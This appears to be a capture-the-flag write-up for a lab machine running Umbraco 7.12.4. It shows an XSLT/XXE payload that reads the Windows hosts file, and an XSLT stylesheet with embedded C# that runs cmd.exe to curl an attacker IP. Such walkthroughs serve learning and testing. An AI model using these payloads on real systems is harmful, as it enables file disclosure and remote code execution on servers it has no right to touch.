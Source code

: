
## Initial shell

- They're using `Umbraco version 7.12.4` , you can see this in the about page after logging in
- There's an Remote Code Execution vulnerability in this version
- For some reasons I'm gonna do this exploit part manually, coz the exploits available in internet are not working properly
- Let's create a `.xslt` file in `http://10.10.10.180/umbraco/#/developer` tab

> Note: Go through [this](https://www.exploit-db.com/exploits/49488) exploit db page to get some basic understanding about this exploit
    Coz you need to know how it works

![](https://i.imgur.com/rsUGMSF.png)

- Let's create a new file
- Now let's try to do XSLT injection

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "C:\Windows\System32\drivers\etc\hosts">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
&ext_file;
</xsl:template>
</xsl:stylesheet>
```

- Using this we can do XXE attack to read local files

![](https://i.imgur.com/pZKA9ah.png)

- Click this button to visualize XSLT

![](https://i.imgur.com/e3ifUQb.png)

- Now click this button

![](https://i.imgur.com/IMkUju3.png)

- Cool we can read `C:\Windows\System32\drivers\etc\hosts`

### XSLT to RCE

```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
	xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
	xmlns:msxsl="urn:schemas-microsoft-com:xslt"
	xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">
	<msxsl:script language="C#" implements-prefix="csharp_user">
		public string xml() { 
		string cmd = "/c curl 10.10.16.3"; 
		System.Diagnostics.Process proc = new System.Diagnostics.Process(); 
		proc.StartInfo.FileName = "cmd.exe"; 
		proc.StartInfo.Arguments = cmd; 
		proc.StartInfo.UseShellExecute = false; 
		proc.StartInfo.RedirectStandardOutput = true; 
		proc.Start(); 
		string output = proc.StandardOutput.ReadToEnd(); 
		return output; 
		}  
	</msxsl:script>
	<xsl:template match="/">
		<xsl:value-of select="csharp_user:xml()"/>
	</xsl:template>
</xsl:stylesheet>
```